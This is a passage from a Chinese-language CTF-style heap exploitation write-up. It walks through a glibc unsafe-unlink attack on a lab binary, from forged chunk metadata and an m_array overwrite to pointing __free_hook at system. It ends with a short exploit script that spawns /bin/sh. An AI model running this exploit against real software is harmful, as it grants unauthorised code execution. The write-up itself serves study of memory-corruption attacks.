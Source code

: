 这时堆管理器处理时看到 prev_inuse 是 0，就根据 prev_size 与前面的块合并，一同合并到 top_chunk

执行完之后再断下来看一下，但是这时不能用`vis`了，因为堆已经被破坏了

我们用`mp_.sbrk_base`可以看到 top_chunk 已经变成了 0x603010 了也就是我们伪造的那个 chunk 的开始位置

也就是说两个空闲堆块已经 consolidate 到 top_chunk 了

![](https://static.hack1s.fun/images/2021/04/25/image-20210425204543853.png)

再查看一下 m_array

![](https://static.hack1s.fun/images/2021/04/25/image-20210425205430002.png)

可以看到`m_array[0]`已经变成了`0x602048`

这是我们之前伪造的`bk->fd=fd`写入的

（伪造的 bk 是`0x602050`，指向的块的 fd 是`0x602060`，伪造的 fd 是`0x602048`；所以这里就是在`0x602060`的位置写入了`0x602048`）

这时由于`m_array[0]`的值已经被我们控制了，再使用`edit(0)`执行时就是往`0x602048`处写内容，也就是可以再次修改`m_array`的内容

我们再修改一次`m_array[0]`，将其修改为我们想要写入值的地址，比如修改为 target 的地址

之后再一次`edit(0)`，就可以修改 target 中的内容了

![](https://static.hack1s.fun/images/2021/04/25/image-20210425210323547.png)

Drop a Shell！
-------------

有了任意地址写的能力之后，我们进一步就想要提升权限为返回一个 shell

我们还是直接修改`free_hook`的值为`system`，这样`free`的时候就可以调用 system

那么问题就是哪里放 "/bin/sh" 呢？

这边有一个比较 tricky 的方法，就是在修改`__free_hook`的时候不直接把`m_array[0]`修改为`__free_hook`

我们可以修改为`__free_hook - 8`这样`__free_hook`前面 8 个字节放`"/bin/sh\x00"`，之后是`system`的地址

并且由于`m_array[0]`指向的是`__free_hook - 8`正好就是`/bin/sh`的位置

![](https://static.hack1s.fun/images/2021/04/25/image-20210425211442076.png)

在 IDA 中可以看到，调用选项三的时候最终实际上就是`free(m_array[nb].user_data)`

所以直接调用`free(0)`就会调用`system("/bin/sh")`

```
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

# Prepare fake chunk metadata.
fd = elf.sym.m_array - 0x18
bk = elf.sym.m_array - 0x10

prev_size = 0x80
fake_size = 0x90

edit(chunk_A, p64(0) + p64(0x80) + p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(fake_size))

free(chunk_B)

#edit(chunk_A, p64(0)*3 + p64(elf.sym['target']))
edit(chunk_A, p64(0)*3 + p64(libc.sym['__free_hook']-8))
edit(chunk_A,b"/bin/sh\x00"+p64(libc.sym["system"]))

free(chunk_A)

```
